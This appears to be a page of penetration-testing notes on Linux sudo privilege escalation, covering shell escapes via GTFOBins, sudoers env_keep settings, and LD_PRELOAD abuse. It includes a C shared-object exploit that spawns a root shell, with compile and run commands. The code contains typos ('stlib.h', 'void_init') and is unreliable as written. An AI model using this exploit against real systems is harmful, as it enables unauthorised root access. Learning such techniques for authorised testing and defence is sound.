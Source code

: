 ### Shell Escape Sequences

Even if we are restricted to running certain programs via sudo, it is sometimes possible to "escape" the program and spawn a shell.

Since the initial program runs with root privileges, so does the spawned shell.

A list of programs with theit shell escape sequences can be found on GTFOBins:

{% embed url="https://gtfobins.github.io/" %}

### Environment Variables

Programs run through sudo can inherit the environment variables from the user's environment.

In the /etc/sudoers config file, if the env\_reset option is set, sudo will run programs in a new, minimal environment.

The env\_keep option can be used to keep certain environment variables from the user's environment.

The configured options are displayed when running sudo -l

### LD\_PRELOAD

This is an environment variable which can be set to the path of a shared object (.so) file.

When set, the shared object will be loaded before any others.

By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

How to detect this:

```
sudo -l
env_keep+LD_PRELOAD
```

Create a file callled preload.c:

```
#include <stdio.h>
#include <sys/types.h>
#include <stlib.h>

void_init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Gain root:

```
nano preload.c
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
sudo LD_PRELOAD=/tmp/preload.so find
root#
```

